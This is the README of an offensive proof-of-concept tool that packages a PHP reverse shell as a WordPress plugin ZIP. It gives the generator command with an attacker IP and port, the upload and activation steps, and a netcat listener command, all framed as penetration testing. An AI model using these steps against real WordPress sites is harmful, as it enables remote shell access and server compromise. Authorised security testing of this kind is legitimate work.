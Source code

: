 # MalWordPlugin

MalWordPlugin is a proof-of-concept (PoC) tool that generates a malicious WordPress plugin packaged as a ZIP file. This plugin can be used for penetration testing, demonstrating potential security vulnerabilities in WordPress environments.

The project is inspired by the malicious-wordpress-plugin repository by wetw0rk and incorporates a PHP reverse shell from PentestMonkey. Additionally, insights gained from a cybersecurity certification were applied to extend and modify the original concept.

## Features

* Plugin Generator: Automatically creates a ZIP file containing a custom malicious WordPress plugin.
* Customizable Payload: Modify the plugin’s behavior and payload to suit different penetration testing scenarios. I used the PHP Reverseshell from PentestMonkey as example.
* Ready-to-Deploy: The generated ZIP file can be directly uploaded and activated in a WordPress installation.

## Installation
### Prerequisites

* Python 3.12.*
* Basic understanding of WordPress plugins and their deployment

### Steps

1. Clone the repository:

```bash
git clone https://github.com/username/malwordplugin.git
cd malwordplugin
```

2. Run the tool to generate the ZIP file:

```bash
python3 malwordplugin.py -d 192.168.1.1 -p 4242 
```

3. The ZIP file will be created in the project directory (e.g., malicious.zip).

## Usage

1. Upload the generated ZIP file to a WordPress installation via the admin panel (Plugins > Add New > Upload Plugin).
2. Activate the plugin.
3. Start a listener on your attack machine (e.g., using netcat):
```bash
nc -lvnp <port>
```
4. Trigger the plugin to initiate the reverse shell connection. (The generator tells you the url templates)

## Technologies Used

* Python: Core logic for generating the WordPress plugin.
* PHP: Payload execution, including reverse shell functionality.
* WordPress: Target platform for plugin deployment.

## Disclaimer

This project is intended for educational purposes only. Use it responsibly and only on systems you own or have explicit permission to test. Unauthorized use of this tool may be illegal.

## License

MIT License

